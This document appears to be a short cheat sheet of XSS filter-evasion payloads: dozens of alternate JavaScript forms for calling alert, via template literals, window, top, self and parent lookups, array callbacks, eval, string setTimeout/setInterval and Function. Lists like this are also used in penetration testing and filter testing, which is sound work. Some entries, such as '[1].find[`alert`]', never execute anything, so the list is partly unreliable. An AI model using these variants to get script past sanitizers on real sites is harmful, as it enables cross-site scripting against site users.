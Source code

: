 like alert : prompt , confirm , print 

    alert(1)
    alert`1`
    window.alert(1)
    window[`alert`](1)
    this.alert(1)
    this[`alert`](1)
    top.alert(1)
    top[`alert`](1)
    self.alert(1)
    self[`alert`](1)
    parent.alert(1)
    parent[`alert`](1)
    frames.alert(1)
    frames[`alert`](1)
    [1].find(alert) 
    [1].find[`alert`]
    [1].map(alert)
    [1].map[`alert`]
    [1].forEach(alert)
    [1].forEach[`alert`]
    [1].filter(alert)
    [1].filter[`alert`]
    eval("alert(1)")
    eval("alert`1`")
    eval("window.alert(1)")
    setTimeout("alert`1`",1000)
    setTimeout("window.alert(1)",1000)
    setTimeout("window[`alert`](1)")
    setInterval("alert`1`",1000)
    setInterval("window[`alert`](1)")
    Function(alert`1`)
    Function(window[`alert`](1))
